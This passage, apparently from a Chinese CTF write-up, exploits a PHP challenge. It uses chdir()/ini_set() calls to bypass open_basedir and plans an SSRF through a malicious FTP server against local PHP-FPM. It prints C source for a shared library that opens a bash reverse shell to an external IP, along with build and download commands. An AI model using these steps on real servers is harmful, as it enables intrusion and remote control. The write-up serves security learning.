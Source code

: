 设置了 open\_basedir，只能访问 Web 目录，但我们可以利用chdir()与ini\_set()组合来绕过 open\_basedir：

```php
/add_api.php?backdoor=mkdir('css');chdir('css');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5219f51e2fa63d316c30baf3367dae8285a18661.png)

在根目录里发现了 flag。

尝试使用 file\_get\_contents() 等函数读取均失败，猜测是出题人对flag的权限做了限制。那我们就要想办法提权了，但是要提权则必须先拿到shell执行命令，也就是得要先绕过disable\_functions。

这里尝试了很多方法绕过disable\_functions均失败，当我读取 /proc/self/cmdline 时发现当前进程是 php-fpm：

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3b1aec731a2aceaff8eab1013e1d865d36b0bf8d.png)

所以说这道题应该就是通过攻击 php-fpm 来绕过 disable\_functions 了。

首先查看nginx配置文件：

![image-20210502004803127](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-694ade9287475385ee562d947bfe15f1d085592d.png)

发现 PHP-FPM 绑定在了本地 9001 端口上。

好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在vps上搭建恶意的ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下c文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```bash
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

![image-20210502092613861](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6dd76668cded1db144e3c66b62165681d5f7e064.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
```